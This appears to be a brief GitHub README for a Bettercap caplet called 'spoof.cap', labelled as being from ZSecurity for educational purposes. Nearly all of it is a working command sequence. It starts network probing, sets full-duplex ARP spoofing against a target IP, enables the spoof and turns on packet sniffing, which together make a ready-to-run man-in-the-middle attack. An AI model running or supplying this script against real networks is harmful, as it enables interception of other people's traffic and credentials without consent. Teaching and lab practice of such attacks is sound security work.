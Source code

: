# Script
Spoof.cap script for Bettercap! ZSecurity, Educational purposes ONLY

`net.probe on

set arp.spoof.fullduplex true

set arp.spoof.targets 10.0.2.7 (target IP here)

arp.spoof on

net.sniff on`
